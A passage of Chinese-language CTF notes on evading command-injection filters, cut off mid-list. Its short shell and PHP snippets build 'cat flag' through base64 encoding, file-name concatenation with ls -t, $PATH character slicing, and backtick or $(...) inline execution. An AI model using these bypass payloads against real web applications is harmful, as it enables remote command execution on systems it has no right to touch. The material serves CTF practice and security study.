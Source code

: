 ```
	echo 'flag' | base64
	
	cat `echo ZmxhZwo= | base64 -d`
```

组合绝活

```
	touch "ag"
	
	touch "fl\\"
	
	touch "t \\"
	
	touch "ca\\"
	
	ls -t >shell
	
	sh shell
	
	# \指的是换行
	# ls -t是将文本按时间排序输出
	# ls -t >shell 将输出输入到shell文件中
	# sh将文本中的文字读取出来执行
```
环境变量

```
取$PATH环境变量中第五个字符开始，取一个
echo f${PATH:5:1}

```

7、异或无符号（过滤0-9a-zA-Z）

```
	异或：rce-xor.php & rce-xor.py
	
	或：rce-xor-or.php & rce-xor-or.py

```
（2）过滤函数关键字

1、内敛执行绕过（system）

```
	echo `ls`;

	echo $(ls);
	
	?><?=`ls`;
	
	?><?=$(ls);
```

2、过滤执行命令（如cat tac等）

